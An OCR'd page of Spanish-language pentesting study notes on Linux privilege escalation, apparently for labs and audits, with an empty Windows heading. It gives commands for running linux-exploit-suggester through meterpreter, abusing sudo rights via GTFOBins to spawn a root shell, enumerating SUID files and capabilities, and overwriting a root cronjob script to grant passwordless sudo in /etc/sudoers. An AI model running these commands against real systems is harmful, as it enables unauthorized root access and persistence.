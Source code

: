 # Privilege Escalation

Propietario: Adrian Gisbert Cabello

# Linux

Links de referencia:

- Linux Exploit Suggester GitHub: [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

**ATENCIÓN!!!! SI EXPLOTAMOS VULNERABILIDADES DEL KERNEL, ESTAR MUY SEGUROS DEL KERNEL QUE TENEMOS QUE EXPLOTAR. SI USAMOS EXPLOITS PARA UN KERNEL DISTINTO PODEMOS CORROMPER EL SISTEMA E INCLUSO PERDER TODOS LOS DATOS, SOBRETODO TENER EN CUENTA PARA AUDITORIAS EN ENTORNOS EMPRESARIALES, ETC. !!!!!**

- Para saber la información del sistema: `sysinfo`
- En una consola meterpreter y gracias a la información del link de GitHub, podemos entrar en el directorio `cd /tmp`, y subir un script para escalar privilegios con `les`.
    - Descargamos el script en nuestra máquina atacante: `wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh`
    - Subimos el archivo al directorio /tmp: `/home/kali/Downloads/les.sh`
    - Le damos permisos de ejecución: `chmod +x les.sh`
    - Ejecutamos el script: `./les.sh`
    - Ahora nos mostrará información del sistema y una lista de todas las vulnerabilidades que podemos explotar.

- Para ver tareas programadas:	`crontab -l`
- ***sudo -l*** → Copiamos y buscamos el path que veamos que tenga permisos de root p.ej:		`(root) NOPASSWD: /usr/bin/find` → Un buen buscador es la página GTFObins (En este caso usariamos el siguiente comando: `sudo find /etc/passwd exec /bin/sh \;`
- ***sudo su*** → Si no nos pide contraseña ya seremos root
- Para listar usuarios: `cat /etc/passwd` (ver todos los usuarios que tengan ***/bin/bash*** → `vagrant:x:1001:1001:vagrant,vagrant,,:/home/vagrant:/bin/bash` (para buscarlo fácilmente usar un grep)
- También podemos listar entrando en el directorio `cd /home` y hacer un `ls`
- Para enumerar carpetas en las que tenemos privilegios: `find / -perm -4000 2>/dev/null`		|		`find / -perm -007 2>/dev/null`
- `getcap -r / 2>/dev/null`
- Para investigar un archivo que creemos que está ejecutando root con una tarea (cronjob) nos situamos en el directorio raíz `cd /`, y escribimos: `grep -rnw /usr -e ¨/directorio/del/archivo¨` y veremos qué lo está haciendo ejecutar.
- Para editar el script que lo ejecuta (copy.sh) no tenemos ni vim ni nano instalados, podemos probar a usar:
    - `printf ‘#!/bin/bash\necho ¨student ALL=NOPASSWD:ALL¨ **>>** /etc/sudoers’ **>** /usr/local/share/copy.sh`
    - Va a hacer un echo de ¨student ALL=NOPASSWD:ALL¨ **>>** /etc/sudoers’ (student es el nombre de usuario) y lo guardamos en el script copy.sh

# Windows
